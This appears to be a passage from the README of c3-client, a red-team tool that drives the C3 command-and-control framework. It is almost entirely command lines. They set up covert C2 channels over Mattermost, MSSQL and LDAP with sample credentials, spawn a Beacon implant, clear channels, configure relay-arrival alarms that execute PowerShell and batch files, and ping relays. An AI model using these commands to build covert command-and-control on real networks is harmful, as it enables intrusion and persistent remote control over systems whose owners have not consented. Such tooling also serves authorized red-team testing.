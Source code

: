 ### 3. Setup Mattermost channel

```
py c3-client.py -v http://192.168.0.200:52935 channel mattermost create gate5 http://192.168.0.210:8080 foobar c3g7sokucbgidgxxxxxxxxxx
```

### 4. Setup MSSQL channel

```
py c3-client.py -v http://192.168.0.200:52935 channel mssql create matter6 mssql-server.contoso.com master spt_foobar contoso\alice Password1! true
```

### 5. Setup LDAP channel

```
py c3-client.py -v http://192.168.0.200:52935 channel ldap create matter5 dc1.contoso.com alice@CONTOSO.COM Password1! CN=alice,CN=Users,DC=contoso,DC=com
```

### 6. Spawn Beacon

```
py c3-client.py -v http://192.168.0.200:52935 spawn beacon matter5
```

### 7. Clear all channels

```
py c3-client.py http://192.168.0.200:52935 channel all clear
```

### 8. Clear network

```
py c3-client.py http://192.168.0.200:52935 close network gate5
```

### 9. Alarm

```
py c3-client.py http://192.168.0.200:52935 alarm relay -g gate5 --execute "powershell -file speak.ps1 -message \`"New C3 Relay inbound: <domain>/<userName>, computer: <computerName>\`"" --execute "cmd /c new-relay.bat <relayId>"
```

### 10. Ping Relays

```
py c3-client.py http://192.168.0.200:52935 ping -k 45
```

## Author

```
Mariusz Banach / mgeeky, '21
<mb [at] binary-offensive.com>
```
